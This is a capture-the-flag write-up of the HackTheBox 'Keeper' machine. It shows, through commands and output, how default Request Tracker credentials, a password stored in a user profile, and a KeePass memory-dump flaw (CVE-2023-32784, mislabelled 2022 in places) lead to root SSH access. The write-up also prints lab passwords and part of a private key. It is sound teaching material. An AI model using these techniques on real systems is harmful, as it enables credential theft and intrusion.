






# HTB: Keeper

[htb-keeper](/tags#htb-keeper ) [hackthebox](/tags#hackthebox )
[ctf](/tags#ctf ) [nmap](/tags#nmap ) [request-tracker](/tags#request-tracker
) [default-creds](/tags#default-creds ) [keepass](/tags#keepass )
[cve-2022-32784](/tags#cve-2022-32784 ) [dotnet](/tags#dotnet ) [dotnet-
linux](/tags#dotnet-linux ) [docker](/tags#docker ) [chatgpt](/tags#chatgpt )
[kpcli](/tags#kpcli ) [putty](/tags#putty ) [puttygen](/tags#puttygen )  
  
Feb 10, 2024

HTB: Keeper

Keeper is a relatively simple box focused on a helpdesk running Request
Tracker and with an admin using KeePass. I’ll use default creds to get into
the RT instance and find creds for a user in their profile. That user is
troubleshooting a KeePass issue with a memory dump. I’ll exploit
CVE-2022-32784 to get the master password from the dump, which provides access
to a root SSH key in Putty format. I’ll convert it to OpenSSH format and get
root access.

## Box Info

Name | [Keeper](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fkeeper)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fkeeper)  
---|---  
Release Date | [12 Aug 2023](https://twitter.com/hackthebox_eu/status/1689668042425266176)  
Retire Date | 10 Feb 2024  
OS | Linux   
Base Points | Easy [20]  
Rated Difficulty |   
Radar Graph |   
 | 00:08:19[ MrJoeyMelo](https://app.hackthebox.com/users/681280)  
  
 | 00:31:02[ ryuki](https://app.hackthebox.com/users/3525)  
  
Creator | [ knightmare](https://app.hackthebox.com/users/8930)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.227
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-04 00:47 EST
    Nmap scan report for 10.10.11.227
    Host is up (0.094s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
    oxdf@hacky$ nmap -p 22,80 -sCV 10.10.11.227
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-04 00:48 EST
    Nmap scan report for 10.10.11.227
    Host is up (0.094s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.12 seconds
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) version, the host is likely running Ubuntu 22.04 jammy.

### Website - TCP 80

#### Vhosts

Visiting `http://10.10.11.227` returns a plain page with a single link:

I’ll take this opportunity to brute force for any other subdomains on
`keeper.htb` with the command:

    
    
    ffuf -u http://10.10.11.227 -H "Host: FUZZ.keeper.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
    

It doesn’t find anything. I’ll add `keeper.htb` and `tickets.keeper.htb` to my
`/etc/hosts` file:

    
    
    10.10.11.227 keeper.htb tickets.keeper.htb
    

`keeper.htb` just returns the same page:

    
    
    oxdf@hacky$ curl keeper.htb
    <html>
      <body>
        <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
      </body>
    </html>
    

#### tickets.keeper.htb Site

The site presents an instance of [Request Tracker
(RT)](https://bestpractical.com/request-tracker), a free ticketing system:

Without creds, there’s not much else to explore here.

#### Tech Stack

The version of RT is given in the page footer as 4.4.4. A quick search for
vulnerabilities in this version didn’t turn up anything too interesting.

The HTTP response headers show nginx:

    
    
    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Content-Type: text/html; charset=utf-8
    Connection: close
    Set-Cookie: RT_SID_tickets.keeper.htb.80=ceaad720182f6b18aea0764ad0c0486b; path=/rt; HttpOnly
    Date: Sun, 04 Feb 2024 12:39:56 GMT
    Cache-control: no-cache
    Pragma: no-cache
    X-Frame-Options: DENY
    Content-Length: 4236
    

There’s a cookie set on first visiting the RT page. Nothing else of interest.

Given that this is a known piece of free software, I’m going to skip the
directory brute force for now.

## Shell as lnorgaard

### Find Password

#### Default Creds

Searching for the default creds for RT shows root:password:

Those work here!

#### Authenticated Enumeration

Logging in provides access to the dashboard:

There aren’t any tickets appearing in the categories it’s trying to show.
There is one Queue, General, which has one new ticket. Clicking on that shows
it’s an issue with Keepass:

The ticket history gives a bit more information:

There’s an issue with Keepass, and the lnorgaard user has a crashdumb for the
root user.

Clicking on the user shows details for the user, but nothing new:

However, as root, I can edit the user (button first from the left in the
menu):

### SSH

This password works for the lnorgaard user over SSH:

    
    
    oxdf@hacky$ sshpass -p Welcome2023! ssh lnorgaard@keeper.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    You have mail.
    Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
    lnorgaard@keeper:~$
    

And I can grab `user.txt`:

    
    
    lnorgaard@keeper:~$ cat user.txt
    f8e0a027************************
    

## Shell as root

### Keepass Dump

As mentioned in the ticket, there’s a zip archive in lnorgaard’s home
directory:

    
    
    lnorgaard@keeper:~$ ls
    RT30000.zip  user.txt
    

I’ll pull it back to my host using `scp` (it’s 84MB, so it takes a minute):

    
    
    oxdf@hacky$ sshpass -p 'Welcome2023!' scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
    

It has two files in it:

    
    
    oxdf@hacky$ unzip RT30000.zip 
    Archive:  RT30000.zip
      inflating: KeePassDumpFull.dmp     
     extracting: passcodes.kdbx  
    oxdf@hacky$ ls -lh passcodes.kdbx KeePassDumpFull.dmp 
    -rwxrwx--- 1 root vboxsf 242M May 24  2023 KeePassDumpFull.dmp
    -rwxrwx--- 1 root vboxsf 3.6K May 24  2023 passcodes.kdbx
    

### CVE-2022-32784

#### Background

There’s a [2023 information disclosure
vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-32784) in KeepPass
such that:

> In KeePass 2.x before 2.54, it is possible to recover the cleartext master
> password from a memory dump, even when a workspace is locked or no longer
> running. The memory dump can be a KeePass process dump, swap file
> (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire
> system. The first character cannot be recovered. In 2.54, there is different
> API usage and/or random string insertion for mitigation.

I have a dump of the KeePass memory, so this seems like a good thing to try.
I’ll show how to do it from both Linux and Windows.

At the time of Keeper’s release, there was really only one POC exploit on
GitHub named [keepass-password-dumper](https://github.com/vdohney/keepass-
password-dumper) in DotNet.

#### Theory

The issue is not that the KeePass key is in memory. It’s that when the user
types their password in, the strings that get displayed back end up in memory.

For example, let’s take the password “password”. The first character goes in
as a “●” (which is `\u25cf` or `\xcf\x25` in memory). The next character
comes, and it will show up as “●a”. Then the next character will be “●●s”,
then “●●●s”, then “●●●●w”, and so on, until we get to “●●●●●●●d”.

The exploits look through memory for strings that start with some number of
“●” and then one character, and build out the most likely master key.

### Recover Password

#### POC Manually

I can take a look at this manually using `strings` and `grep`. With `-e S`,
strings will look for 8-bit characters, which will include what’s needed for
the “●” (though it will show up as “%” in my terminal). Then I can `grep` for
strings that start with two “●” to see potential matches for the keys being
input:

    
    
    oxdf@hacky$ strings -e S KeePassDumpFull.dmp | grep -a $(printf "%b" "\\xCF\\x25\\xCF\\x25")
    %%
    %%d
    %%d
    %%%
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%d
    %%%g
    %%%g
    %%%%
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%g
    %%%%r
    %%%%r
    %%%%%
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%r
    %%%%%
    %%%%%
    %%%%%%
    %%%%%
    %%%%%
    %%%%%
    %%%%%
    %%%%%
    %%%%%
    %%%%%
    %%%%%
    %%%%%%d
    %%%%%%d
    %%%%%%%
    %%%%%%d
    %%%%%%d
    %%%%%%d
    %%%%%%d
    %%%%%%d
    %%%%%%d
    %%%%%%d
    %%%%%%d
    %%%%%%%
    %%%%%%%
    %%%%%%%%
    %%%%%%%
    %%%%%%%
    %%%%%%%
    %%%%%%%
    %%%%%%%
    %%%%%%%
    %%%%%%%
    %%%%%%%
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%%
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%m
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%%
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%e
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%%
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%d
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%%
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%f
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%l
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%d
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%%%
    

This method is crude, but I can see the third character is likely “d”, and
then “g” then “r”. This is what the exploit POCs will do, but a bit smarter to
find the most likely key.

#### Exploit from Windows

From a Windows VM, the exploit is rather straight forward. I’ll clone the repo
to my host and go into that directory (if `git` isn’t installed in your
Windows VM, you can also download the ZIP from GitHub and unzip it):

    
    
    PS C:\Users\0xdf > git clone https://github.com/vdohney/keepass-password-dumper
    Cloning into 'keepass-password-dumper'...
    remote: Enumerating objects: 111, done.
    remote: Counting objects: 100% (111/111), done.
    remote: Compressing objects: 100% (79/79), done.
    remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
    Receiving objects: 100% (111/111), 200.08 KiB | 3.45 MiB/s, done.
    Resolving deltas: 100% (61/61), done.
    PS C:\Users\0xdf > cd .\keepass-password-dumper\
    

Then I just need to `dotnet run [dump]`:

    
    
    PS C:\Users\0xdf\keepass-password-dumper > dotnet run Z:\hackthebox\keeper-10.10.11.227\KeePassDumpFull.dmp
    ...[snip]...
    Password candidates (character positions):
    Unknown characters are displayed as "●"
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
    3.:     d,
    4.:     g,
    5.:     r,
    6.:     ø,
    7.:     d,
    8.:      ,
    9.:     m,
    10.:    e,
    11.:    d,
    12.:     ,
    13.:    f,
    14.:    l,
    15.:    ø,
    16.:    d,
    17.:    e,
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
    

That’s most of the password, with the first character missing and options for
the second.

#### Exploit from Linux

Many people seem to say this is not possible from Linux, and that just isn’t
true. It does matter that I have `dotnet` installed, and the correct runtime
version. I had a really tricky time getting that working in my Ubuntu VM.
Following [these instructions](https://learn.microsoft.com/en-
us/dotnet/core/install/linux-ubuntu-2204) seemed to work to get `dotnet` 8.0
installed:

    
    
    oxdf@hacky$ dotnet --list-runtimes
    Microsoft.AspNetCore.App 8.0.1 [/usr/share/dotnet/shared/Microsoft.AspNetCore.App]
    Microsoft.NETCore.App 8.0.1 [/usr/share/dotnet/shared/Microsoft.NETCore.App]
    

Running the exploit (going into the exploit directory and running `dotnet run
[path to dump]`) returns an error:

    
    
    oxdf@hacky$ dotnet run ~/hackthebox/keeper-10.10.11.227/KeePassDumpFull.dmp 
    You must install or update .NET to run this application.
    
    App: /opt/keepass-password-dumper/bin/Debug/net7.0/keepass_password_dumper
    Architecture: x64
    Framework: 'Microsoft.NETCore.App', version '7.0.0' (x64)
    .NET location: /usr/share/dotnet
    
    The following frameworks were found:
      8.0.1 at [/usr/share/dotnet/shared/Microsoft.NETCore.App]
    
    Learn more:
    https://aka.ms/dotnet/app-launch-failed
    
    To install missing framework, download:
    https://aka.ms/dotnet-core-applaunch?framework=Microsoft.NETCore.App&framework_version=7.0.0&arch=x64&rid=linux-x64&os=ubuntu.22.04
    

It seems like I should just be able to install the v7 runtime, but I couldn’t
get that to work.

This is a great case to switch to Docker. I asked ChatGPT for the right
container:

I’ll run that container (the first time it needs to pull the image down to my
host), and it drops me at a root shell:

    
    
    oxdf@hacky$ docker run --rm -it -v $(pwd):/data mcr.microsoft.com/dotnet/sdk:7.0.100 
    Unable to find image 'mcr.microsoft.com/dotnet/sdk:7.0.100' locally
    7.0.100: Pulling from dotnet/sdk
    025c56f98b67: Pull complete 
    b7bdfde7680c: Pull complete 
    0722d9f841b1: Pull complete 
    d16b6cbfeee6: Pull complete 
    e0fa390bde6c: Pull complete 
    d37a20633344: Pull complete 
    e18b62ec28b8: Pull complete 
    65b988e004de: Pull complete 
    Digest: sha256:c6c842afe9350ac32fe23188b81d3233a6aebc33d0a569d565f928c4ff8966e1 
    Status: Downloaded newer image for mcr.microsoft.com/dotnet/sdk:7.0.100
    root@8af1c7b7c189:/#
    

The `-v $(pwd):/data` will mount the current directory (where the dump is)
into the container in `/data`. I’ll clone the exploit and go into that
directory:

    
    
    root@8af1c7b7c189:/# git clone https://github.com/vdohney/keepass-password-dumper
    Cloning into 'keepass-password-dumper'...
    remote: Enumerating objects: 111, done.
    remote: Counting objects: 100% (111/111), done.
    remote: Compressing objects: 100% (79/79), done.
    remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
    Receiving objects: 100% (111/111), 200.08 KiB | 4.55 MiB/s, done.
    Resolving deltas: 100% (61/61), done.
    root@8af1c7b7c189:/# cd keepass-password-dumper/
    root@8af1c7b7c189:/keepass-password-dumper#
    

Now the exploit runs fine:

    
    
    root@8af1c7b7c189:/keepass-password-dumper# dotnet run /data/KeePassDumpFull.dmp 
    ...[snip]...
    Password candidates (character positions):
    Unknown characters are displayed as "●"
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
    3.:     d, 
    4.:     g, 
    5.:     r, 
    6.:     ø, 
    7.:     d, 
    8.:      , 
    9.:     m, 
    10.:    e, 
    11.:    d, 
    12.:     , 
    13.:    f, 
    14.:    l, 
    15.:    ø, 
    16.:    d, 
    17.:    e, 
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
    

That’s the same output as above.

#### Exploit with Python

Since the release of Keeper, many Python versions of this exploit have come
out. I had a hard time finding one that worked as nicely as the DotNet
version. For example, [this one](https://github.com/z-jxy/keepass_dump) will
get most of the password:

    
    
    oxdf@hacky$ python keepass_dump/keepass_dump.py -f KeePassDumpFull.dmp 
    [*] Searching for masterkey characters
    [-] Couldn't find jump points in file. Scanning with slower method.
    [*] 0:  {UNKNOWN}
    [*] 2:  d
    [*] 3:  g
    [*] 4:  r
    [*] 6:  d
    [*] 7:   
    [*] 8:  m
    [*] 9:  e
    [*] 10: d
    [*] 11:  
    [*] 12: f
    [*] 13: l
    [*] 15: d
    [*] 16: e
    [*] Extracted: {UNKNOWN}dgrd med flde
    

It knows it doesn’t know the 0 char, but it also skips the 1, 5, and 14 char
as well (5 and 14 show up as “ø” in the original POC). Still, it’s enough to
continue.

### SSH

#### Find Master Password

The exploit has a limitation of not getting the first character. The DotNet
version also gives a list of possibilities for the second character, and gets
the rest. Searching for the string minus the first two characters is enough to
find a known phrase:

It’s adding a “rø” to the front, which fits the pattern. Even the less
complete output from the Python script works here:

#### KeePass

That password works to get into the `passcodes.kdbx` file using `kpcli` (`apt
install kpcli`):

    
    
    oxdf@hacky$ kpcli --kdb passcodes.kdbx 
    Please provide the master password: *************************
    
    KeePass CLI (kpcli) v3.1 is ready for operation.
    Type 'help' for a description of available commands.
    Type 'help <command>' for details on individual commands.
    
    kpcli:/>
    

There are two entries in the `passcodes/Network` folder:

    
    
    kpcli:/> ls passcodes/
    === Groups ===                                                                 
    eMail/                                                                         
    General/                                                                       
    Homebanking/
    Internet/                                                                      
    Network/                                                                       
    Recycle Bin/                                                                   
    Windows/
    kpcli:/> ls passcodes/Network/                                                 
    === Entries ===                                                                
    0. keeper.htb (Ticketing Server)                                               
    1. Ticketing System
    

I’ll go into that directory:

    
    
    kpcli:/> cd passcodes/Network/                                                 
    kpcli:/passcodes/Network>
    

`show` with `-f` will show the passwords. For example:

    
    
    kpcli:/passcodes/Network> show -f 1
    
    Title: Ticketing System
    Uname: lnorgaard
     Pass: Welcome2023!
      URL: 
    Notes: http://tickets.keeper.htb
    

The more interesting on is the SSH key for the server:

    
    
    kpcli:/passcodes/Network> show -f 0
    
    Title: keeper.htb (Ticketing Server)
    Uname: root
     Pass: F4><3K0nd!
      URL: 
    Notes: PuTTY-User-Key-File-3: ssh-rsa
           Encryption: none
           Comment: rsa-key-20230519
           Public-Lines: 6
           AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
           8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
           EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
           Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
           FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
           LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
           Private-Lines: 14
           AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
    ...[snip]...
           AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
           NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
           Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
    

#### Putty –> OpenSSH

To use this key on Linux, I’ll need to convert it to a format that openssh can
understand. I’ll need putty tools (`sudo apt install putty-tools`). I’ll save
everything in the “Notes” section to a file, and make sure to remove all the
leading whitespace from each line.

Then I’ll convert it:

    
    
    oxdf@hacky$ puttygen root-putty.key -O private-openssh -o ~/keys/keeper-root
    

#### SSH

Now it works:

    
    
    oxdf@hacky$ ssh -i ~/keys/keeper-root root@keeper.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)
    ...[snip]...
    root@keeper:~# 
    

And I’ll grab `root.txt`:

    
    
    root@keeper:~# cat root.txt
    c930d7c0************************
    

